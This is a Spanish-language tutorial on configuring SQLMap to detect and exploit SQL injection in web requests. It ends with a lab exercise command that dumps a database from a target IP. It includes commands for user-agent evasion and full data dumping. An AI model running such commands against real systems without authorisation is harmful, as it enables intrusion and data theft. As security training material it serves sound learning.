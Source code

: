 ### Uso de SQLMap en Peticiones HTTP

SQLMap permite automatizar la detección y explotación de vulnerabilidades de **inyección SQL (SQLi)** en aplicaciones web. Para utilizarlo correctamente, es importante configurar adecuadamente las peticiones HTTP, asegurándonos de incluir las cookies, encabezados y parámetros adecuados.

---

## **1. Configuración de SQLMap con cURL**

Una forma sencilla de configurar SQLMap es utilizando la opción **"Copiar como cURL"** desde las herramientas de desarrollo del navegador (Chrome, Edge, Firefox).

1. **Copiar la petición como cURL**
    
    - Abrir la pestaña **Red (Network)** en las herramientas de desarrollo.
    - Hacer clic derecho en la petición HTTP y seleccionar **Copy > Copy as cURL**.
2. **Convertir la petición a SQLMap**  
    Pegar la petición en la terminal y reemplazar `curl` por `sqlmap`:
    
    ```bash
    sqlmap 'http://www.example.com/?id=1' \
    -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0' \
    -H 'Accept: image/webp,*/*' \
    -H 'Accept-Language: en-US,en;q=0.5' \
    --compressed -H 'Connection: keep-alive' -H 'DNT: 1'
    ```
    
    - Esta técnica garantiza que SQLMap use la misma petición que el navegador.

---

## **2. Inyección SQL en Parámetros GET y POST**

- **Peticiones GET**: Se utilizan con `-u` para definir la URL.
    
    ```bash
    sqlmap -u "http://www.example.com/?id=1"
    ```
    
- **Peticiones POST**: Se definen con `--data`.
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1&name=test"
    ```
    
- **Restringir la prueba a un solo parámetro**: Si sabemos que `uid` es vulnerable, podemos indicarlo con `-p`:
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1&name=test" -p uid
    ```
    
- **Marcador `*` para inyección**:
    
    ```bash
    sqlmap -u "http://www.example.com/" --data "uid=1*&name=test"
    ```
    
    Esto indica que SQLMap debe probar la inyección en `uid`.

---

## **3. Uso de Archivos de Peticiones HTTP**

Si la petición tiene muchos encabezados o un cuerpo POST complejo, podemos usar `-r` con un archivo de solicitud HTTP:

1. **Capturar la petición con Burp Suite**
    
    - En Burp, hacer clic derecho en la petición y seleccionar **Copy to file**.
    - Guardar la petición en un archivo (`req.txt`).
2. **Ejecutar SQLMap con el archivo de solicitud**
    
    ```bash
    sqlmap -r req.txt
    ```
    
    SQLMap leerá la petición completa desde el archivo y probará vulnerabilidades.
    

---

## **4. Configuración Avanzada de SQLMap**

### **Cookies y Sesiones**

- **Incluir una cookie de sesión** con `--cookie`:
    
    ```bash
    sqlmap -u "http://www.example.com/" --cookie="PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"
    ```
    
- **Alternativamente, definir la cookie en los encabezados** con `-H`:
    
    ```bash
    sqlmap -u "http://www.example.com/" -H "Cookie: PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c"
    ```
    

### **User-Agent Aleatorio**

Algunas aplicaciones bloquean solicitudes con el User-Agent de SQLMap. Podemos evitarlo con `--random-agent`:

```bash
sqlmap -u "http://www.example.com/" --random-agent
```

También podemos simular un navegador móvil con `--mobile`.

### **Prueba de Inyección en Encabezados**

Podemos inyectar SQL en encabezados como `Cookie`, `Referer`, `User-Agent`, etc.:

```bash
sqlmap -u "http://www.example.com/" --cookie="id=1*"
```

### **Uso de Métodos HTTP Diferentes**

Si la aplicación usa `PUT` en lugar de `GET` o `POST`, podemos indicarlo con `--method`:

```bash
sqlmap -u "http://www.example.com/" --data="id=1" --method PUT
```

---

## **5. Prueba de Inyección en JSON y XML**

SQLMap soporta inyecciones en formatos JSON y XML.

### **Inyección en JSON**

Si la aplicación usa JSON, podemos probar con:

```bash
sqlmap -u "http://www.example.com/" --data='{"id":1}'
```

Si la estructura es compleja, se recomienda usar `-r` con un archivo:

```bash
cat req.txt
```

```http
POST /api/data HTTP/1.1
Host: www.example.com
Content-Type: application/json

{
  "user": {
    "id": "1",
    "name": "test"
  }
}
```

Ejecutamos SQLMap:

```bash
sqlmap -r req.txt
```

### **Inyección en XML**

Si la aplicación usa XML, podemos hacer:

```bash
sqlmap -u "http://www.example.com/" --data='<element><id>1</id></element>'
```

O usar un archivo:

```bash
cat req.txt
```

```http
POST /api/data HTTP/1.1
Host: www.example.com
Content-Type: application/xml

<element>
  <id>1</id>
</element>
```

```bash
sqlmap -r req.txt
```

---

## **Conclusión**

SQLMap permite realizar pruebas de **inyección SQL automatizadas** de manera eficiente. Las mejores prácticas incluyen:

- **Usar la opción "Copiar como cURL"** para configurar SQLMap con precisión.
- **Utilizar `-r` para peticiones complejas capturadas con Burp**.
- **Restringir las pruebas a parámetros específicos con `-p`**.
- **Explorar inyecciones en JSON y XML si la aplicación lo usa**.
- **Utilizar encabezados personalizados y cookies para evadir restricciones**.

Este enfoque ayuda a evitar errores comunes y facilita la detección de vulnerabilidades SQLi en aplicaciones web.



## EJERCICIO

* Ejercicio 1
	


```
  sqlmap 'http://94.237.54.69:46196/case2.php' --compressed -X POST -H 'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:133.0) Gecko/20100101 Firefox/133.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://94.237.54.69:46196' -H 'Connection: keep-alive' -H 'Referer: http://94.237.54.69:46196/case2.php' -H 'Upgrade-Insecure-Requests: 1' -H 'Priority: u=0, i' --data-raw 'id=1' --batch --dump
```

 
* Ejercicio 2 

* Ejercicio 3
